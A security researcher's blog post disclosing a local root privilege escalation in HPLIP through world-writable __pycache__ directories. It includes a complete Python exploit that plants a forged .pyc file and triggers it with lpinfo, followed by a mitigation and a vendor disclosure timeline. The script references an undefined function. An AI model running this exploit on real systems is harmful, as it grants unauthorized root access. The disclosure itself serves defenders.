

Privilege escalation in HPLIP
tl;dr: Default installations of HPLIP version 3.19.6 and below are vulnerable to a local privilege escalation 0-day that is important but not critical due to its setup. It is due to a world-writable directory containing compiled python files.
The end of good old /tmp symlink privilege escalation
I like file-based privilege escalations, so much so that I already did two articles around them here and there (FR). These bugs are always nice: tricky but understandable, fun yet exploitable and of course powerful.
The old and most common idea is to trick a privileged program into reading or writing the file of your choice by guiding it through a symlink at just the right time. It can happen if using a temporary file in a world-writable directory such as /tmp for example since anyone can create a file there with the expected name.
Well, that's the way it used to go at least. But now there's a new sheriff in Linux town: /proc/sys/fs/protected_symlinks. That bad boy forbids any process to follow a symlink placed in a sticky world-writable directory such as /tmp unless the owners match. Its deputy, /proc/sys/fs/protected_hardlinks, finishes the job by forbidding the creation of hard links to files you do not own.
All joke aside, those are great security features that effectively and proactively block many privilege escalation bugs (especially considering the number of sysadmin scripts I've seen that run as root while manipulating files in /tmp).
However protected_symlinks only protects sticky directories and only against link attacks. World-writable directories are still a weak point where we can remove existing files and create our owns.
Vulnerability discovery
A few month ago I decided to look for world-writable directories on my system to get an idea of my exposure. This is a simple find command from which two directories emerged:
$ find / -type d -perm -007
…
/usr/share/hplip/prnt/__pycache__
/usr/share/hplip/base/pexpect/__pycache__
…HPLIP (HP Linux Imaging and Printing) is an HP Inc project that proposes better integration of HP products on Linux.
They contained compiled python files, bytecode files that are produced when importing a library and cached for performance. Since they're loaded on subsequent access they're effectively executables.
/usr/share/hplip/base/pexpect/__pycache__: total 128 -rw-r--r-- 1 root cups 65211 Jul 13 2018 __init__.cpython-36.pyc -rw-r--r-- 1 root cups 63065 Jun 4 07:17 __init__.cpython-37.pyc /usr/share/hplip/prnt/__pycache__: total 92 -rw-r--r-- 1 root cups 22289 Jul 13 2018 cups.cpython-36.pyc -rw-r--r-- 1 root cups 22236 Jun 4 07:17 cups.cpython-37.pyc -rw-r--r-- 1 root cups 116 Jul 13 2018 __init__.cpython-36.pyc -rw-r----- 1 root cups 120 Jun 5 07:27 __init__.cpython-37.pyc -rw-r--r-- 1 root cups 8934 Jul 13 2018 ldl.cpython-36.pyc -rw-r--r-- 1 root cups 12439 Jun 4 07:17 ldl.cpython-37.pyc -rw-r--r-- 1 root cups 1522 Jul 13 2018 pcl.cpython-36.pyc -rw-r--r-- 1 root cups 2116 Jun 4 07:17 pcl.cpython-37.pyc
Later investigation showed that these files were imported by HPLIP on different occasions. It seemed related to listing available printers in CUPS notably when adding a new one, but later investigation showed that using lpinfo -v removes the need to use the CUPS web interface.
So we have a bunch of executables owned by root in a directory that any user can mess with and that can be triggered by poking the CUPS server, what could go wrong?
Exploitation
The basic idea is as follow:
Write our own compiled python file that runs a command of our choice
Replace one of the HPLIP PYC file with our own
List printers through lpinfo
Drink to our success as our PYC file is executed with root privileges
Easy right? Quite: there are two problems we need to take care of beforehand. The first one is that listing printers in CUPS can only be done by someone in the sys group. From there on we'll assume that our user in in that group.
We can verify easily that HPLIP files are executed by deleting the content of /usr/share/hplip/prnt/__pycache__ (don't worry, it's only cache) and executing lpinfo -v. We see that the four files are recreated. Replacing any of these file by our own would trigger the issue.
The other real issue is to write our own PYC file. Of course we could study the file format but it's much easier to ask python to compile our source file directly. This can be done using the standard library module py_compile.
import py_compile
open("/tmp/test.py", "w").write("print('Hello')")
py_compile.compile("/tmp/test.py")
# /tmp/__pycache__/test.cpython-37.pycThis seems easy enough, but if we try we quickly notice that it doesn't work as expected: python completely ignores our PYC file, removes it and writes his own. And thinking about it it's normal: this is a cache file, it must have some way to check that the original source file wasn't changed. Since our PYC doesn't correspond to the original file python assumes that the source file has been changed and recompiles it.
Armed with that idea we start looking for a hash of the source file in the compiled one. Sure enough, after some trial and errors, bytes 8 through 16 correspond to a hash. Which one? I didn't care to find out, I just copied the original PYC's hash into my own and it was properly executed when calling HPLIP.
Exploit
Here is the final exploit in all its splendor, tried on a stock Manjaro installation which has HPLIP and cups running by default, from a user named "test" whose only groups were sys test.
#!/usr/bin/env python3
import os
import subprocess
import py_compile
import tempfile
import base64
import requests
def check_dir(path):
if not os.path.isdir(path):
return None
pycache_path = os.path.join(path, "__pycache__")
if not os.path.exists(pycache_path):
trigger_add_printer()
if os.access(pycache_path, os.W_OK):
return pycache_path
return None
def pyc_compile_file(path):
fo = tempfile.mktemp()
py_compile.compile(path, cfile=fo)
result = open(fo, "rb").read()
os.remove(fo)
return result
def pyc_get_hash(filename):
# If necessary, add-printer once to pre-load pyc files
if not os.access(filename, os.R_OK):
init_path = os.path.join(os.path.dirname(os.path.dirname(filename)),
"__init__.py")
content = pyc_compile_file(init_path)
else:
content = open(filename, "rb").read()
return content[8:16]
def pyc_content(cmd, pyc_hash):
content = 'import os\nos.system(""" %s """)' % cmd
fi = tempfile.mktemp()
open(fi, "wb").write(content.encode("utf8"))
raw = pyc_compile_file(fi)
os.remove(fi)
return raw[:8] + pyc_hash + raw[16:]
def main():
if len(os.sys.argv) < 2:
print("Usage: %s CMD" % os.sys.argv[0])
return 1
cmd = os.sys.argv[1]
print("[+] Check that /usr/share/hplip/ contains 777 directories")
vulnerable_dir = (check_dir("/usr/share/hplip/prnt") or
check_dir("/usr/share/hplip/base/pexpect"))
if vulnerable_dir is None:
print("[!] hplip not available or not vulnerable")
return 1
print("[-] Found: %s" % vulnerable_dir)
print("[+] Write and compile an __init__.py file")
init_file_name = sorted(filename
for filename in os.listdir(vulnerable_dir)
if "__init__" in filename)[-1]
init_file_path = os.path.join(vulnerable_dir, init_file_name)
print("[+] Recover the original pyc hash")
pyc_hash = pyc_get_hash(init_file_path)
print("[+] Write the new pyc file in the vulnerable directory")
os.remove(init_file_path)
open(init_file_path, "wb").write(pyc_content(cmd, pyc_hash))
print("[+] Call lpinfo to list printers and trigger command")
if subprocess.call(["lpinfo", "-v"]) != 0:
print("[!] lpinfo failed, are you in the 'sys' group?")
return 1
print("[+] Success (probably)!")
return 0
if __name__ == "__main__":
main()Impact and follow-up
Privilege escalations should never be treated lightly but they require to already have access to the system. Furthermore access to the sys group is seldom given to users that aren't already part of the sudo group. If that situation arises though then this exploit is quite effective.
At the moment Manjaro releases at least are vulnerable out of the box and no patch exists. I've tried several times to alert the HP team behind HPLIP of this issue but received no answer. Following the common 90 days deadline I'm releasing this in the wild in hope to alert users and manufacturers alike.
The only local fix I know is to remove all access to /usr/share/hplip for users that aren't in the correct group. It might have unforeseen effects, but simply deleting or changing the rights of the __pycache__ directories is useless: HPLIP automatically changes the rights back to 777.
sudo chmod 750 /usr/share/hplipTimeline
2019/06/04: Discovery
2019/06/06: First mail to HP — No answer
2019/08/29: Second mail to HP — No answer
2019/09/06: Third mail to HP — No answer
2019/12/06: Public disclosure